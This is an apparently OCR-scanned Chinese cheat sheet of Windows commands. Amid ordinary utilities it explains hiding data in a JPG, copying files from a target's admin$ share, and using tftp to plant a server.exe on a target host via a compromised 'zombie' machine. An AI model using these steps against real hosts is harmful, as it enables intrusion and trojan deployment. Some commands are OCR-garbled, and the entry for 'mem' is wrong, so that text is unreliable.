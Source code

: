 
 

　　copy 1st.jpg/b+2st.txt/a 3st.jpg 将2st.txt的内容藏身到1st.jpg中生成3st.jpg新的文件，注：2st.txt文件头要空三排，参数：/b指二进制文件，/a指ASCLL格式文件

 

 

　　copy ipadmin$svv.exe c: 或:copyipadmin$*.* 复制对方admini$共享下的srv.exe文件（所有文件）至本地C：

 

 

　　xcopy 要复制的文件或目录树　目标地址目录名 复制文件和目录树，用参数/Y将不提示覆盖相同文件

 

 

　　用参数/e才可连目录下的子目录一起复制到目标地址下。

 

 

　　tftp -i 自己IP(用肉机作跳板时这用肉机IP) get server.exec:server.exe 登陆后，将“IP”的server.exe下载到目标主机c:server.exe 参数：-i指以二进制模式传送，如传送exe文件时用，如不加-i 则以ASCII模式（传送文本文件模式）进行传送

 

 

　　tftp -i 对方IP　put c:server.exe 登陆后，上传本地c:server.exe至主机

 

 

　　ftp ip 端口 用于上传文件至服务器或进行文件操作，默认端口为21。bin指用二进制方式传送（可执行文件进）；默认为ASCII格式传送(文本文件时)

 

 

　　route print 显示出IP路由，将主要显示网络地址Network addres，子网掩码Netmask，网关地址Gateway addres，接口地址Interface

 

 

　　arp 查看和处理ARP缓存，ARP是名字解析的意思，负责把一个IP解析成一个物理性的MAC地址。arp -a将显示出全部信息

 

 

　　start 程序名或命令 /max 或/min 新开一个新窗口并最大化（最小化）运行某程序或命令

 

 

　　mem 查看cpu使用情况

 

 

　　attrib 文件名(目录名) 查看某文件（目录）的属性

 

 

　　attrib 文件名 -A -R -S -H 或 +A +R +S +H 去掉(添加)某文件的 存档，只读，系统，隐藏 属性；用+则是添加为某属性

 